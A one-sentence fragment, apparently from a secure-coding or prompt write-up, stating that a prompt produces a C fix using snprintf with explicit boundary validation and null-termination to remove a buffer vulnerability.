  Running this prompt produces a clean implementation using `snprintf(buf, sizeof(buf), "%s", src)` with explicit boundary validation and null-termination, completely eliminating the vulnerability.

